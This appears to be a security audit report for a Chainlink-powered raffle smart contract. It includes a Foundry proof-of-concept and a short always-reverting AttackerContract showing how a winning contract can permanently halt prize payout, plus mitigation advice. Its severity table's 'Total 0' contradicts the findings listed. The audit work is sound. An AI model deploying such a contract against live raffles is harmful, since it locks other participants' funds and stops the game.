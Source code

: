 # Lottery Audit Report

# Audit Details

GitHub：https://github.com/williamhjc/foundry-lottery

**The findings described in this document correspond the following commit hash:**

```
171d53cb768ea9280add910eee715d3b205066a9
```

## Scope

```
./src/
-- Raffle.sol
```

# Protocol Summary

A fully decentralized raffle system powered by Chainlink VRF v2.5 for verifiable randomness and Chainlink Automation for periodic draws。

## Roles

- Raffle Entrant: Anyone who enters the raffle. Denominated by being in the `players` array.

# Executive Summary

## Issues found

| Severity | Number of issues found |
| -------- | ---------------------- |
| High     | 1                      |
| Medium   | 0                      |
| Low      | 0                      |
| Info     | 1                      |
| Total    | 0                      |

# Findings

#### High

### [H-1] Malicious winner can forever halt the raffle

**Description:** Once the winner is chosen, the `fulfillRandomWords` function sends the prize to the the corresponding address with an external call to the winner account.

```solidity
 (bool success,) = recentWinner.call{value: address(this).balance}("");
        if (!success) {
            revert Raffle__TransferFailed();
        }
```



If the `winner` account were a smart contract that did not implement a payable `fallback` or `receive` function, or these functions were included but reverted, the external call above would fail, and execution of the `fulfillRandomWords` function would revert, the state of raffle always `caculating` and execution of the performUpkeep function would halt.  Therefore, the prize would never be distributed and the raffle would never be able to start a new round.

**Impact:** In either case, because it'd be impossible to distribute the prize and start a new round, the raffle would be halted forever.

**Proof of Concept:**

Place the following test into `RaffleTest.t.sol`.

```solidity
function testEvilWinnerBlocksRaffle() public raffleEntered skipFork {
        for (uint256 i = 0; i < 4; i++) {
            address player = address(new AttackerContract());
            hoax(player, 1 ether); // deal 1 eth to the player
            raffle.enterRaffle{value: raffleEntranceFee}();
        }

        vm.recordLogs();
        raffle.performUpkeep(""); // emits requestId
        Vm.Log[] memory entries = vm.getRecordedLogs();
        console2.logBytes32(entries[1].topics[1]);
        bytes32 requestId = entries[1].topics[1]; // get the requestId from the logs

        VRFCoordinatorV2_5Mock(vrfCoordinatorV2_5).fulfillRandomWords(uint256(requestId), address(raffle));
        Raffle.RaffleState raffleState = raffle.getRaffleState();

        // call performUpkeep again
        vm.expectRevert(abi.encodeWithSelector(Raffle.Raffle__UpkeepNotNeeded.selector, address(raffle).balance, 5, 1));
        raffle.performUpkeep("");

        assert(uint256(raffleState) == 1);
    }
```

For example, the `AttackerContract` can be this:

```solidity
contract AttackerContract {
    // Implements a `receive` function that always reverts
    receive() external payable {
        revert();
    }
}
```

**Recommended Mitigation:** Favor pull-payments over push-payments. This means modifying the `fulfillRandomWords` function so that the winner account has to claim the prize by calling a function, instead of having the contract automatically send the funds during execution of `fulfillRandomWords`.

#### Informational / Non-Critical

### [I-1] Floating pragmas

**Description:** Contracts should use strict versions of solidity. Locking the version ensures that contracts are not deployed with a different version of solidity than they were tested with. An incorrect version could lead to uninteded results.

https://swcregistry.io/docs/SWC-103/

**Recommended Mitigation:** Lock up pragma versions.

```solidity
-^0.8.0 (lib/chainlink-brownie-contracts/contracts/src/v0.8/interfaces/AutomationCompatibleInterface.sol#2)
                -^0.8.0 (lib/chainlink-brownie-contracts/contracts/src/v0.8/shared/access/ConfirmedOwner.sol#2)
                -^0.8.0 (lib/chainlink-brownie-contracts/contracts/src/v0.8/shared/access/ConfirmedOwnerWithProposal.sol#2)
                -^0.8.0 (lib/chainlink-brownie-contracts/contracts/src/v0.8/shared/interfaces/IOwnable.sol#2)
                -^0.8.0 (lib/chainlink-brownie-contracts/contracts/src/v0.8/vrf/dev/interfaces/IVRFCoordinatorV2Plus.sol#2)
                -^0.8.0 (lib/chainlink-brownie-contracts/contracts/src/v0.8/vrf/dev/interfaces/IVRFMigratableConsumerV2Plus.sol#2)
                -^0.8.0 (lib/chainlink-brownie-contracts/contracts/src/v0.8/vrf/dev/interfaces/IVRFSubscriptionV2Plus.sol#2)
        - Version constraint ^0.8.4 is used by:
                -^0.8.4 (lib/chainlink-brownie-contracts/contracts/src/v0.8/vrf/dev/VRFConsumerBaseV2Plus.sol#2)
                -^0.8.4 (lib/chainlink-brownie-contracts/contracts/src/v0.8/vrf/dev/libraries/VRFV2PlusClient.sol#2)
        - Version constraint 0.8.19 is used by:
                -0.8.19 (src/Raffle.sol#2)
```

